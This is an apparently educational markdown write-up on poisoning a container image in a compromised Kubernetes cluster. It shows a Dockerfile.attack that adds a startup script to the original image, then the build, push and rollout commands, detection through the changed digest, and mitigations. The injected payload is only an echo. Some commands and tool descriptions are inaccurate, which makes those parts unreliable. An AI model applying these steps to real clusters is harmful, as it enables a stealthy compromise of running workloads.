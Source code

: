 **Author - Kumail Rizvi**

---

### Poisoning Docker Image  

A scenario where an attacker got access of your kuberentes cluster via token or kube config file 

after gaining access of the cluster , he will try to exploit the applications and serviced deployed on it 

lets understand the attack by an example

1. lets say your application running using an image ghcr.io/datosh/demo-token/demo-app:latest
    this image is getting used in `deployment.yaml` 

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: awesome-cats-deployment
  labels:
    app: awesome-cats
spec:
  replicas: 3
  selector:
    matchLabels:
      app: awesome-cats
  template:
    metadata:
      labels:
        app: awesome-cats
    spec:
      containers:
      - name: awesome-cats-container
        image: ghcr.io/datosh/demo-token/demo-app:latest
        ports:
        - containerPort: 8080

```


also we have `service.yaml`

```yaml
apiVersion: v1
kind: Service
metadata:
  name: awesome-cats-service
  labels:
    app: awesome-cats
spec:
  type: NodePort
  selector:
    app: awesome-cats
  ports:
  - port: 8080
    targetPort: 8080
    nodePort: 30080
```

2. **Before Attack** , your application is running pretty well  , the logs of the deployment is also healthy  

```
kubectl logs -f deployments/awesome-cats-deployment
127.0.0.1 - - [11/Jul/2024 06:17:22] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [11/Jul/2024 06:17:27] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [11/Jul/2024 06:17:30] "GET / HTTP/1.1" 200 -

```

3. Now once the attacker got inside of the cluster , now he will inject the container with malicious script or just an echo command to show that he got into the cluster and can increase the blast radius of the attack .

4. Now he will check for the image been used in the deployment yaml , using a simple describe command 

```console
$ kubectl describe deployments awesome-cats-deployment | grep "Image"
Image:        ghcr.io/datosh/demo-token/demo-app:latest
```

5.  Here he can easily get the image name being used in the deployment , he will get the `SHA` which is the image digest , for example it would be something like this 

```
crane digest ghcr.io/datosh/demo-token/demo-app:latest
```

crane is a powerful Docker orchestration tool similar to Docker Compose with extra features.  if not crane then with a docker command a `SHA` can be fetched 

```
$ docker inspect --format='{{index .RepoDigests 0}}' ghcr.io/datosh/demo-token/demo-app:latest
ghcr.io/datosh/demo-token/demo-app:latest@sha256:67836d1041abaafa1741b45f0b88abced60924d423c6952743148c302098d2d3
```

6. if you notice the output we can see the `SHA`  with image name its something like this `67836d1041abaafa1741b45f0b88abced60924d423c6952743148c302098d2d3`

### What is a SHA or image digest ??

7.  A `SHA` or `image digest`  is like a digital fingerprint which is unique and its get created when ever we create any images in docker , every `image digest`  is unique for every images 

8. Now the attacker will use this information to create an extended dockerfile that would contain of a malicious code or a echo script 

Here we named the Dockerfile as `Dockerfile.attack`

```dockerfile
ARG REPO=ghcr.io/datosh/demo-token/demo-app
ARG SHA=67836d1041abaafa1741b45f0b88abced60924d423c6952743148c302098d2d3

FROM ${REPO}@${SHA}

RUN echo 'echo xx Im in your system  xx' >> init.sh
RUN chmod +x init.sh

ENTRYPOINT ["bash", "-c", "/init.sh && python3 -m http.server 8080 -d cats"]
```

Here you can see how the attacker created an `init.sh`  and its running an echo command , this is just an example , the attacker can run anything to try to affect the application such as crashing down services , application , or locking down the cluster 

9. This `init.sh` is passed through an Entrypoint in the dockerfile 

10.  Now the image will be builded and this image will be pushed to the container registry and then passed to the container 

```docker
docker build --build-arg SHA=${SHA} -t ${CONTAINER_REPO}:latest -f Dockerfile.attack .   
```

11.  After the image getting build , the attack will scale down the deployment and and rollout the deployment 

```console
kubectl scale deploy awesome-cats --replicas=0

$ kubectl rollout  deploy awesome-cats-deployment

deployment "awesome-cats-deployment" successfully rolled out
```

12. After successfully rolling out the deployment , even though the application from frontend side will be running as expected 

we can check by doing curl of the URL 

``` console
$ curl http://localhost:8080/                      
<!DOCTYPE html>
<html lang="en">
<meta charset="UTF-8">
<title>Awesome Cats</title>
<meta name="viewport" content="width=device-width,initial-scale=1">
<link rel="stylesheet" href="">
<style>
</style>
<script src=""></script>

<body>
    <img src="cat1.jpg" alt="Cat">
    <img src="cat2.jpg" alt="Cat">
    <img src="cat3.jpg" alt="Cat">
</body>

</html>

```

13. But the real attack took place behind the scene , if we check the logs of the deployment we will see it 

```
$ kubectl logs -f deployments/awesome-cats-deployment
Found 3 pods, using pod/awesome-cats-deployment-b7dd856cd-9nfn2
⚔⚔ Im in your system ⚔⚔
127.0.0.1 - - [11/Jul/2024 06:17:40] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [11/Jul/2024 06:17:47] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [11/Jul/2024 06:17:50] "GET / HTTP/1.1" 200 -
```

Here we can see the attacker was able to successfully run the attack and infect the container 

15. Even the image name with tag is same as before , we will not able to find the find difference looking at the image tag , so can we see the difference ? 

16.  as discussed earlier about `image digest` lets check it 

```
$ docker inspect --format='{{index .RepoDigests 0}}' ghcr.io/datosh/demo-token/demo-app:latest 
ghcr.io/datosh/demo-token/demo-app@sha256:3ee5995cd4002a753e095a23e214da9b0e155a3e331437c9568ff2f4009d92b
```

If you have noticed something the image digest is changed , so we can verify that the SHA has been tampered and the image is been manipulated

---

### Understanding Attack 

1.  Leaked container registry credentials 
2. Protect external cluster-external dependencies 
   -  Container registries 
   - Config Repositories
   - Deployment pipelines & Secret Managers for token and config files

### Mitigation

1. Pin by Hash `(SHA)`
  -  Do not use `latest` or even version  tags 
2.  Always do a container singing 
3. implement rotation of short lived secrets regularly
4.  Use Image Scanning tools like Docker Scout , Trivy or Synk to scan image for vulnerabilities  

By following these best practices  we can prevent attacker to infect container and also save guard applications  

---

